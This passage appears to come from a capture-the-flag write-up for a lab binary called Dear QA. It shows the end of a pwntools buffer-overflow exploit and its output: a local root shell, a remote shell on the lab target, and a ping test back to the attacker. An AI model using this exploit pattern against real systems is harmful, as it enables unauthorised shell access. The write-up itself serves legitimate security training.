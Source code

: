 ```py

io.recvuntil(b"What's your name:")
io.sendline(payload)
io.interactive()
```

**Run it:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# python3 exploit.py
[+] Starting local process './DearQA.DearQA': pid 55326
[*] Switching to interactive mode
 Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x06
Congratulations!
You have entered in the secret function!
$ whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),119(wireshark),142(kaboxer)
```

We successfully exploited it locally! **Next, let's exploit it remotely!**

**Set the `Local` variable to `False`:**
```py
Local = False
```

**Run it:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# python3 exploit.py
[+] Opening connection to 10.10.16.159 on port 5700: Done
[*] Switching to interactive mode






ctf@dearqa:/home/ctf$ $ whoami


ctf@dearqa:/home/ctf$ $ id


ctf@dearqa:/home/ctf$ $ 
```

We have a shell in the target machine!! BUT, looks like there is no output for me. Let's test the target machine can reach out to me or not.

```
ctf@dearqa:/home/ctf$ $ ping -c 4 10.18.61.134

┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# tcpdump -i tun0 icmp     
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:23:08.079020 IP 10.10.16.159 > 10.18.61.134: ICMP echo request, id 1255, seq 1, length 64
01:23:08.079206 IP 10.18.61.134 > 10.10.16.159: ICMP echo reply, id 1255, seq 1, length 64
01:23:09.080963 IP 10.10.16.159 > 10.18.61.134: ICMP echo request, id 1255, seq 2, length 64
01:23:09.080996 IP 10.18.61.134 > 10.10.16.159: ICMP echo reply, id 1255, seq 2, length 64
01:23:10.081941 IP 10.10.16.159 > 10.18.61.134: ICMP echo request, id 1255, seq 3, length 64
01:23:10.081968 IP 10.18.61.134 > 10.10.16.159: ICMP echo reply, id 1255, seq 3, length 64
01:23:11.082613 IP 10.10.16.159 > 10.18.61.134: ICMP echo request, id 1255, seq 4, length 64
01:23:11.082626 IP 10.18.61.134 > 10.10.16.159: ICMP echo reply, id 1255, seq 4, length 64
```
